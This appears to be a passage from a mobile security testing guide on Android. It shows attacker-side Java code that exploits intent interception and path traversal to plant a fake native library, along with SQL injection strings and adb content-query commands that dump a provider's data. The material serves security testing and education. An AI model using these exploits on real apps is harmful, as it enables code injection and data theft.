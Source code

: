```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

A full description of the attack is included in the [blog article by oversecured](https://blog.oversecured.com/Interception-of-Android-implicit-intents)

### Dynamic Analysis

#### Testing Content Provider Injection

The tester should manually test the input fields with strings like `OR 1=1--` if, for example, a local SQL injection vulnerability has been identified.

On a rooted device, the command content can be used to query the data from a content provider. The following command queries the vulnerable function described above.

```bash
# content query --uri content://sg.vp.owasp_mobile.provider.College/students
```

SQL injection can be exploited with the following command. Instead of getting the record for Bob only, the user can retrieve all data.

```bash
# content query --uri content://sg.vp.owasp_mobile.provider.College/students --where "name='Bob') OR 1=1--''"
```

## Testing for Fragment Injection (MSTG-PLATFORM-2)

### Overview

Android SDK offers developers a way to present a [`Preferences activity`](https://developer.android.com/reference/android/preference/PreferenceActivity.html "Preference Activity") to users, allowing the developers to extend and adapt this abstract class.
